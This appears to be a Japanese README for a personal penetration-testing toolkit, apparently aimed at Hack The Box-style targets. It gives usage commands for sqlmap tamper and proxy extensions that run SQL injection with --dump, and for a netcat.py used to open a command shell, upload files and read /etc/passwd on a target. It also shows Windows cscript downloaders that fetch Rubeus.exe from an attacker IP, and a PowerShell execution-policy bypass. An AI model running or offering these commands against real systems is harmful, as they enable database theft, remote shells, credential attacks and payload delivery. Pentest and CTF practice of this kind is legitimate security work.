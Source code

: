 # side_tool
個人的ハックツールに付与できる拡張機能コードリスト

## sqlmap_basic_auth.py
sqlmapコマンドのBasic Auth Base64 Request拡張機能コード
<br/>
コマンド例
```
sqlmap -r ./req --tamper=./sqlmap_basic_auth.py --ignore-code=401 --level 5 --risk 3
```
リクエスト例
```
#req
GET http://example.htb/ HTTP/1.1
Content-Length: 0

---
Authorization: Basic *
```
## sqlmap_websocket.py
websocketのプロトコルを介したsqlmapの実行。プロキシ`localhost:8081`を建て、そこからSQLi対象へwebsocket送ります。
<br/>
コマンド例
```
# websocketインストール
pip install websockets

# プロキシ起動
python3 sqlmap_websocket.py

# sqlmap実行
sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

## http2grpc.go
gRPCのPort50051向けにgrpcurlコマンドを使ってペイロードを送信するHTTPプロキシツール。HTTPのPortは8051。<br/>
コマンド例:
```
# grpcurl インストール
$ go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest

# go mod整理
$ go mod init sqlmap/grpc
$ go mod tidy

# 起動
$ go run http2grpc.go

# sqlmap実行
sqlmap -u "http://localhost:8051/?id=1" --batch --dump
```
## netcat.py
Python環境が存在（ほぼある）するターゲットで簡易的に足場を構築するためのもの

```
# 対話型コマンドシェルの起動
netcat.py -t 10.11.14.13 -p 4444 -l -c
# ファイルのアップロード
netcat.py -t 10.11.14.13 -p 4444 -l -u=mytest.whatisup
# コマンドの実行
netcat.py -t 10.11.14.13 -p 4444 -l -e=\"cat /etc/passwd\"
# 通信先サーバーの135番ポートに文字列を送信
echo 'ABCDEFGHI' | ./netcat.py -t 10.11.14.13 -p 135
# サーバーに接続
netcat.py -t 10.11.14.13 -p 4444
```
## windows_wget_script
Windows標準で組み込まれているスクリプト言語を使ってWgetを実行する物

コマンド例：
```
#Javascript
cscript.exe /nologo wget.js hxxp://10.11.14.13/Rubeus.exe Rubeus.exe

#VBS
cscript.exe /nologo wget.vbs hxxp://10.11.14.13/Rubeus.exe Rubeus.exe
```
# Powershell
これを忘れないように
```
$ powershell -ep bypass
```